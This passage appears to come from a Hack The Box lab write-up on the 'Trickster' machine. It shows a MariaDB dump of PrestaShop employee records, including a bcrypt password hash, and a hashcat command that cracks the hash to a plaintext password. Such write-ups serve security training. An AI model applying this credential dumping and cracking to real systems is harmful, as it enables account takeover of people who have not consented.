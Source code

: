 ```
           id_last_order: 5
id_last_customer_message: 0
        id_last_customer: 0
    last_connection_date: 2024-09-22
    reset_password_token: NULL
 reset_password_validity: 0000-00-00 00:00:00
    has_enabled_gravatar: 0
*************************** 2. row ***************************
             id_employee: 2
              id_profile: 2
                 id_lang: 0
                lastname: james
               firstname: james
                   email: james@trickster.htb
                  passwd: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
         last_passwd_gen: 2024-09-09 13:22:42
         stats_date_from: NULL
           stats_date_to: NULL
      stats_compare_from: NULL
        stats_compare_to: NULL
    stats_compare_option: 1
    preselect_date_range: NULL
                bo_color: NULL
                bo_theme: NULL
                  bo_css: NULL
             default_tab: 0
                bo_width: 0
                 bo_menu: 1
                  active: 0
                   optin: NULL
           id_last_order: 0
id_last_customer_message: 0
        id_last_customer: 0
    last_connection_date: NULL
    reset_password_token: NULL
 reset_password_validity: NULL
    has_enabled_gravatar: 0
2 rows in set (0.000 sec)

ERROR: No query specified

MariaDB [prestashop]> 
```

# Cracking Hash (James)

It was possible to crack the hash associated with the `james` user as shown below.

```
┌──(kali㉿kali)-[~/hackthebox/trickster]
└─$ hashcat hashes.txt --show -m 3200                            
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
```
